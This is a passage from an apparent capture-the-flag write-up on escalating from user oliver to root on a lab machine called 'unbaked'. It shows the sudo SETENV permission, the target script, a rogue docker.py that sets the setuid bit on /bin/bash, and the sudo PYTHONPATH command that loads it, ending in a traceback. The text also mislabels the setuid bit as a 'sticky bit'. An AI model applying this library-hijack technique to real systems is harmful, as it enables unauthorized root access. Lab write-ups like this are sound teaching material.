 > Note: The image must be very clear, otherwise it'll recognize other characters.

I'm user `oliver`!

### Host oliver to Host root

**Sudo permission:**
```shell
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

**User `oliver` can run `/usr/bin/python /opt/dockerScript.py` as root! Also, we can set an environment variable.**

**`/opt/dockerScript.py`:**
```py
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

This Python script will: 

1. Using `docker.from_env()` to connect using the default socket or the configuration in the environment variable
2. Using `client.containers.run()` to run the specified container

**Armed with above information, we can hijack the `docker` library!**

**To do so, we can create an evil `docker` Python script:**
```shell
oliver@unbaked:/dev/shm$ cat << EOF > docker.py
> import os
> 
> os.system("chmod +s /bin/bash")
> EOF
```

This Python script will add a SUID sticky bit to `/bin/bash`, so we can spawn a root Bash shell.

**Then, run `/opt/dockerScript.py` with `PYTHON_PATH` environment variable:**
```shell
oliver@unbaked:/dev/shm$ sudo PYTHONPATH=/dev/shm /usr/bin/python /opt/dockerScript.py
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 6, in <module>
    client = docker.from_env()
AttributeError: 'module' object has no attribute 'from_env'
```

